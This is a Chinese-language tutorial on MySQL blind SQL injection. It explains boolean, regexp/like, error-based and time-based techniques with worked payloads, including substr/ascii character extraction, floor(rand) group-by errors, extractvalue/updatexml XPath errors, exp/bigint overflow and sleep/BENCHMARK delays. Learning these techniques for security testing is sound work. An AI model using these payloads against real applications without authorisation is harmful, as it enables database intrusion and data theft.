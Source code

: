 # SQL盲注基础知识
## 基于布尔SQL盲注----------构造逻辑判断
**Sql注入截取字符串常用函数**

三大法宝：mid(),substr(),left()

**mid()函数**

此函数为截取字符串一部分。MID(column_name,start[,length])  
column_name：必需。要提取字符的字段。  
start：必需。规定开始位置（起始值是 1）。  
length：可选。要返回的字符数。如果省略，则 MID() 函数返回剩余文本。  
Eg:      str="123456"     mid(str,2,1)    结果为2  
Sql用例：  
>（1）MID(DATABASE(),1,1)>’a’,查看数据库名第一位，MID(DATABASE(),2,1)查看数据库名第二位，依次查看各位字符。  
>（2）MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE T table_schema=0xxxxxxx LIMIT 0,1),1,1)>’a’此处column_name参数可以为sql语句，可自行构造sql语句进行注入。  

 **substr()函数**  
   Substr()和substring()函数实现的功能是一样的，均为截取字符串。  
   + string substring(string, start, length)
   + string substr(string, start, length)

参数描述同mid()函数，第一个参数为要处理的字符串，start为开始位置，length为截取的长度。  
Sql用例：  
>(1) substr(DATABASE(),1,1)>’a’,查看数据库名第一位，substr(DATABASE(),2,1)查看数据库名第二位，依次查看各位字符。  
>(2) substr((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE T table_schema=0xxxxxxx LIMIT 0,1),1,1)>’a’此处string参数可以为sql语句，可自行构造sql语句进行注入。  

**Left()函数**
Left()得到字符串左部指定个数的字符  
Left ( string, n )        string为要截取的字符串，n为长度。  
Sql用例：  

>(1) left(database(),1)>’a’,查看数据库名第一位，left(database(),2)>’ab’,查看数据库名前二位。  
>(2) 同样的string可以为自行构造的sql语句。

同时也要介绍 **ORD()** 函数，此函数为返回第一个字符的ASCII码，经常与上面的函数进行组合使用。
例如ORD(MID(DATABASE(),1,1))>114 意为检测database()的第一位ASCII码是否大于114，也即是‘r’
类似的还有**ascii()函数**：  
`ascii(substr((select table_name from information_schema.tables where tables_schema=database()limit 0,1),1,1))=101 --+ `   
//substr()函数，ascii()函数  
Explain：substr(a,b,c)从b位置开始，截取字符串a的c长度。Ascii()将某个字符转换为ascii值  
**▲ascii(substr((select database()),1,1))=98**  
**▲regexp正则注入**  

正则注入介绍：http://www.cnblogs.com/lcamry/articles/5717442.html  
用法介绍：select user() regexp '^[a-z]';  
Explain：正则表达式的用法，user()结果为root，regexp为匹配root的正则表达式。  
第二位可以用`select user() regexp '^ro'`来进行。  

当正确的时候显示结果为1，不正确的时候显示结果为0.  
示例介绍：  
>select * from users where id=1 and 1=(if((user() regexp '^r'),1,0));  
>select * from users where id=1 and 1=(user() regexp'^ri');

通过if语句的条件判断，返回一些条件句，比如if等构造一个判断。根据返回结果是否等于0或者1进行判断。  
`select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 0,1);`

这里利用select构造了一个判断语句。我们只需要更换regexp表达式即可  
`'^u[a-z]' -> '^us[a-z]' -> '^use[a-z]' -> '^user[a-z]' -> FALSE`

如何知道匹配结束了？这里大部分根据一般的命名方式（经验）就可以判断。但是如何你在无法判断的情况下，可以用table_name regexp '^username$'来进行判断。^是从开头进行匹配，$是从结尾开始判断。更多的语法可以参考mysql使用手册进行了解。  
好，这里思考一个问题，table_name有好几个，我们只得到了一个user，如何知道其他的？  
这里可能会有人认为使用limit 0，1改为limit 1,1。  
但是这种做法是错误的，limit作用在前面的select语句中，而不是regexp。那我们该如何选择。其实在regexp中我们是取匹配table_name中的内容，只要table_name中有的内容，我们用regexp都能够匹配到。因此上述语句不仅仅可以选择user，还可以匹配其他项。即，table_name中包含了所有的表名，除了匹配到user表之外，还可以继续匹配其他表，只需更改匹配规则即可。

**▲like匹配注入**  
和上述的正则类似，mysql在匹配的时候我们可以用ike进行匹配。  
用法：select user() like ‘ro%’  

## 基于报错的SQL盲注------构造payload让信息通过错误提示回显出来
**▲floor  rand  group by**  
`Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a;  `   

//explain:此处有三个点，一是需要concat计数，二是floor，取得0 or 1，进行数据的重复，三是group by进行分组，但具体原理解释不是很通，大致原理为分组后数据计数时重复造成的错误。也有解释为mysql 的bug 的问题。但是此处需要将rand(0)，rand()需要多试几次才行。  
以上语句可以简化成如下的形式。
`select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2))`

如果关键的表被禁用了，可以使用这种形式  
`select count(*) from (select 1 union select null union select !1) group by concat(version(),floor(rand(0)*2))`  

如果rand被禁用了可以使用用户变量来报错  
`select min(@a:=1) from information_schema.tables group by concat(user(),@a:=(@a+1)%2)`

用户变量：以"@"开始，形式为"@变量名"。用户变量跟mysql客户端是绑定的，设置的变量，只对当前用户使用的客户端生效

```
mysql> SELECT @t1:=(@t2:=1)+@t3:=4,@t1,@t2,@t3;
+----------------------+------+------+------+
| @t1:=(@t2:=1)+@t3:=4 | @t1  | @t2  | @t3  |
+----------------------+------+------+------+
|                    5 | 5    | 1    | 4    |
+----------------------+------+------+------+
```

解释：@t2:=1 给t2赋值为1，@t3:=4 给t3赋值为4，两这个相加后赋值给t1.  
▲select exp(~(select * FROM(SELECT USER())a))         //double数值类型超出范围  
 //Exp()为以e为底的对数函数；版本在5.5.5及其以上  
可以参考exp报错文章：http://www.cnblogs.com/lcamry/articles/5509124.html  
▲select !(select * from (select user())x) -（ps:这是减号） ~0  
//bigint超出范围；~0是对0逐位取反，很大的版本在5.5.5及其以上  
可以参考文章bigint溢出文章http://www.cnblogs.com/lcamry/articles/5509112.html  
▲extractvalue(1,concat(0x7e,(select @@version),0x7e))  se//mysql对xml数据进行查询和修改的xpath函数，xpath语法错误  
**ExtractValue(xml_str , Xpath)** 函数,使用Xpath表示法从XML格式的字符串中提取一个值  
**ExtractValue()**  函数中任意一个参数为NULL,返回值都是NULL.  
如果我们构造了不符合规定的Xpath,MySQL就会报语法错误,并显示XPath的内容.  
报错会从遇到的第一个特殊字符处开始报错.直到结束.但是报错的长度是有限制的.  

MariaDB [information_schema]> select extractvalue(1,concat(0x7e,(select @@version),0x7e));
ERROR 1105 (HY000): XPATH syntax error: '\~10.1.9-MariaDB\~'

**▲updatexml(1,concat(0x7e,(select @@version),0x7e),1)**   //mysql对xml数据进行查询和修改的xpath函数，xpath语法错误  
**▲select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;**  
//mysql重复特性，此处重复了version，所以报错。  
好像只有version()函数才可以使用，其他如user()等会报不正确的参数错误，函数不能执行。  
>NAME_CONST(name,value)  
Returns the given value. When used to produce a result set column, NAME_CONST() causes the column to have the given name. The arguments should be constants.
```
mysql> SELECT NAME_CONST('myname', 14);
+--------+
| myname |
+--------+
|     14 |
+--------+ 
```

## 基于时间的SQL盲注----------延时注入  
**▲If(ascii(substr(database(),1,1))>115,0,sleep(5))%23**           //if判断语句，条件为假，执行sleep  
**▲UNION SELECT IF(SUBSTRING(current,1,1)=CHAR(119),BENCHMARK(5000000,ENCODE(‘MSG’,’by 5 seconds’)),null) FROM (select database() as current) as tb1;**   

//BENCHMARK(count,expr)用于测试函数的性能，参数一为次数，二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的cpu资源。推荐使用sleep()
